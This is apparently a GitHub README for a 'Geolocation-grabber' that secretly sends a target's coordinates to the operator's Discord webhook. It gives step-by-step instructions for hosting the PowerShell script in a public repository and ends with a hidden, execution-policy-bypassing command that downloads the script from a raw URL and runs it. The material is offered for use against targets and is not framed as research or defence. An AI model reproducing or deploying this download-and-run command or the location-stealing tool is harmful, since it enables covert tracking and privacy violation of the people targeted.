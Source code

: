 # Geolocation-grabber
Sends the coordinates of the target to your discord server via webhook
<p><p/>
<p><p/>
<p>Download geolocationGraber.ps1.txt<p/>
<p>Edit and replace WEBHOOK_HERE with your webhook url<p/>
<p>Save <p/>
<p>Create a new repo in public <p/>
<p>Add file <p/>
<img src="https://user-images.githubusercontent.com/93588803/209905806-c66ec56d-fc37-4d78-8274-f7050838d199.png?raw=true" width="350" title="hover text">
<p>Click geolocationGraber.ps1.txt<p/>
 <img src="https://user-images.githubusercontent.com/93588803/209906165-30e731b6-a8fe-46c8-b880-86898b2a0ae1.png?raw=true" width="350"> 
<p>Click the pen<p/>
<p>Delete .txt<p/>
 <img src="https://user-images.githubusercontent.com/93588803/209906166-45d4a03e-e9c8-4852-904a-01461fb235db.png?raw=true" width="350"> 
<p>Commit changes <p/>
<p>You should be left with geolocationGraber.ps1<p/>
<p>Click it<p/>
 <img src="https://user-images.githubusercontent.com/93588803/209906167-75a9fcbd-bf67-42cc-9bb9-024a95bd70c2.png?raw=true" width="350"> 
<p>Click raw<p/>
<p>Copy that link <p/>
<p><p/>
<p>Paste that link in the line below where it says paste here <p/>
 ` PowerShell -w h -NoP -NonI -Exec Bypass iwr PASTE HERE | iex ` 
